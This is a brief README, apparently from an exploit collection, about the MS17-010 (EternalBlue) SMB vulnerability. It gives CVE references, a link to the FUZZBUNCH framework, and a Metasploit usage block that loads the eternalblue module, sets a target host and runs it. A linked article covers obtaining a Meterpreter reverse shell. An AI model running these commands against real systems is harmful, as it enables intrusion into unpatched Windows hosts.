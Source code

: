 # MS17-010

- exp [FUZZBUNCH](https://github.com/exploitx3/FUZZBUNCH)

Vulnerability reference:
 * [MS17-010](https://technet.microsoft.com/library/security/ms17-010)
 * [CVE-2017-0143](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
 * [CVE-2017-0144](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
 * [CVE-2017-0145](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0145)
 * [CVE-2017-0146](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0146)
 * [CVE-2017-0148](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0148)
 * [CVE-2017-0147](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0147)

## Usage
```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set rhost 10.10.1.13
msf exploit(ms17_010_eternalblue) > run
```

## References
* [Windows2012上如何通过攻击ETERNALBLUE获得Meterpreter反弹](https://mp.weixin.qq.com/s?__biz=MzI5MzY2MzM0Mw%3D%3D&mid=2247483946&idx=1&sn=cbe2e5a08470d699daeb74d7904581c7&scene=45#wechat_redirect)
